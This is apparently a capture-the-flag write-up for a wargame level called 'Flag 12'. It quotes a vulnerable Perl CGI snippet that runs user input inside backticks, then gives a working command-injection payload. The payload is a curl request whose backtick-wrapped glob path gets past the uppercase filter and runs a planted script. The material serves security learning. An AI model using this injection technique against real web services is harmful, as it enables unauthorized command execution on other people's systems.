# Flag 12

```bash
$ ll
total 16
dr-xr-x---+ 1 level12 level12  120 Mar  5  2016 ./
d--x--x--x  1 root    users    340 Aug 30  2015 ../
-r-x------  1 level12 level12  220 Apr  3  2012 .bash_logout*
-r-x------  1 level12 level12 3518 Aug 30  2015 .bashrc*
-rwsr-sr-x+ 1 flag12  level12  464 Mar  5  2016 level12.pl*
-r-x------  1 level12 level12  675 Apr  3  2012 .profile*
```

The given Perl script is not really protecting user to send something similar to a command with this code:

```perl
$xx =~ tr/a-z/A-Z/; 
$xx =~ s/\s.*//;
@output = `egrep "^$xx" /tmp/xd 2>&1`;
```

so we can maybe put a command inside a file and send it:

```bash
$ echo "getflag | wall" > TMP
$ chmod +x TMP
$ curl 'http://localhost:4646/level12.pl?x=`/*/TMP/`'
```